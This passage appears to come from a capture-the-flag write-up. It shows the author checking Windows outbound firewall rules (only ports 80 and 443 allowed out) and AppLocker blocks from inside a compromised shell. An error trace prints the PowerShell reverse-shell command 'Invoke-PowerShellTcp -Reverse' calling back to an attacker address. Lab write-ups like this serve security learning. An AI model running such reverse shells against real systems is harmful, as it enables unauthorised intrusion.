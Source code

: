     Name                            : Public
    Enabled                         : True
    DefaultInboundAction            : Block
    DefaultOutboundAction           : Block
    ...[snip]...



Checking the outbound firewall, it seems that only 80 and 443 are
allowed out on TCP:



    PS C:\> Get-NetFirewallRule -Direction Outbound -Enabled True
    ...[snip]...
    Name                  : {3F5C5261-77AE-4F72-9C2A-4BFCE6CD8CBC}
    DisplayName           : http_out
    Description           :
    DisplayGroup          :
    Group                 :                             
    Enabled               : True                   
    Profile               : Any                        
    Platform              : {}
    Direction             : Outbound                   
    Action                : Allow                       
    EdgeTraversalPolicy   : Block            
    LooseSourceMapping    : False
    LocalOnlyMapping      : False             
    Owner                 :                   
    PrimaryStatus         : OK                
    Status                : The rule was parsed successfully from the store.
                            (65536)
    EnforcementStatus     : NotApplicable               
    PolicyStoreSource     : PersistentStore     
    PolicyStoreSourceType : Local
    ...[snip]...



That'll be good to know going forward. Had I used some other port while
troubleshooting my reverse shell, that would have been an extra real
headache.

#### AppLocker

I noted some weirdness with PowerShell earlier. From this 32-bit
process, I can only really run the 32-bit PowerShell, but the 64-bit
version is blocked by AppLocker. There's other blocks in place.

For example, I can't write a `.bat`, `.exe`, or `.ps1` files:



    PS C:\programdata> echo "test" > 0xdf.txt
    PS C:\programdata> echo "test" > 0xdf.bat
    Invoke-PowerShellTcp : Access to the path 'C:\programdata\0xdf.bat' is denied.
    At line:127 char:1
    + Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 443
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
       tion
        + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
       n,Invoke-PowerShellTcp
     